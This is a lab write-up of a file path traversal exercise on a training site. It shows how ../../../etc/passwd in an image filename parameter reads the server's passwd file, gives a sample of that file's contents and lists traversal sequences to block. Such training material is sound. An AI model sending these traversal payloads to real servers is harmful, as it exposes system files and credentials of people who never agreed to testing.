



# File Path Traversal - Simple Case

## Overview

So, this lab demonstrates a obvious  **File Path Traversal** vulnerability where user-controlled input is used to retrieve product images from the server. The application fails to properly validate the filename parameter, allowing an attacker to traverse directories outside the intended image folder and access sensitive files stored elsewhere on the server.

---

## Objective

The objective of this lab is to exploit a path traversal vulnerability in the product image functionality and retrieve the contents of the `/etc/passwd` file from the server.

---

## Lab Scenario

While browsing the product catalog, It's clearly visible that each product image was loaded using a request similar to:

```http
GET /image?filename=49.jpg
```

And also, since the lab description explicitly mentioned that the vulnerability existed within the image display functionality, the image request became the primary target for our testing.

---

## Methodology

### Step 1: Identify the Image Request

I opened a product page and intercepted the image request using Burp Suite Proxy.

The application requested product images using the following endpoint:

```http
GET /image?filename=49.jpg
```


---

### Step 2: Test Direct File Access

My initial assumption was that the application might allow direct file access through the filename parameter.

So, I just simply replaced the image filename with:

```http
GET /image?filename=/etc/passwd
```

The server responded with :

```http
400 Bad Request
```

which means direct access was not allowed.




---

### Step 3: Attempt Directory Traversal

Since direct file access failed, I started testing directory traversal sequences to move outside the image directory.

So, I go for :

```http
GET /image?filename=../../etc/passwd
```

The request still failed.

then I increased the traversal depth and tested:

```http
GET /image?filename=../../../etc/passwd
```

This time the application successfully returned the contents of the system password file!

---

### Step 4: Verify Sensitive File Disclosure

The response contained multiple system accounts including:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
peter:x:1200:1200:/home/peter:/bin/bash
carlos:x:1202:1202:/home/carlos:/bin/bash
```

Which confirmed that directory traversal was possible and arbitrary files could be read from the server.




---

### Step 5: Lab Completion

After confirming successful retrieval of `/etc/passwd`, the vulnerability was validated.

And just like that, when I Refreshed the page, the lab being automatically marked as solved.




---

## Attack Flow

```text
User Requests Product Image
            ⇓
GET /image?filename=49.jpg
            ⇓
Filename Parameter Identified
            ⇓
Attempt Direct File Access
(/etc/passwd)
            ⇓
   Request Rejected
            ⇓
Test Directory Traversal Payloads
            ⇓
../../../etc/passwd
            ⇓
Contents of /etc/passwd Returned
            ⇓
        Lab Solved
```

---

## Impact

This successful exploitation of a Path Traversal vulnerability can lead to:

###  ◈ Information Disclosure

Attackers may access sensitive files such as:

```text
/etc/passwd
/etc/shadow
source code
environment files
```

### ◈ Credential Exposure

Configuration files may contain:

- Database credentials
- API keys
- Internal service credentials
- Cloud access tokens

### ◈ Source Code Disclosure

Access to application source code can reveal:

- Hidden endpoints
- Business logic

### ◈ Further Compromise

Sensitive information obtained through traversal can be used to facilitate:

- Privilege escalation
- Remote code execution
- Lateral movement

---

## Security Recommendations

### ▣  Validate User Input

Only allow predefined filenames...

```text
image1.jpg
image2.jpg
image3.jpg
```

Reject any other unexpected values.

---

### ▣  Implement Allowlisting

Use strict allowlists instead of accepting arbitrary filenames.

```php
$allowed = ["1.jpg","2.jpg","3.jpg"];
```

---

### ▣  Remove Traversal Sequences

Reject input containing:

```text
../
..\

%2e%2e/
%2e%2e\
```


---

### ▣  Restrict File System Permissions

The application should only have access to files required for operation.

---

### ▣  Store Sensitive Files Outside Web Root

Critical system files and configuration data should never be accessible through web functionalities.

---

## Conclusion

In this lab, a File Path Traversal vulnerability was identified within the product image functionality. By manipulating the filename parameter and using directory traversal sequences, it was possible to escape the image directory and access the sensitive system file `/etc/passwd`.

The vulnerability existed because user input was incorporated directly into filesystem operations without sufficient validation or path restrictions. Successful exploitation demonstrated arbitrary file read capabilities, highlighting the importance of strict input validation, allowlisting, and secure file handling practices.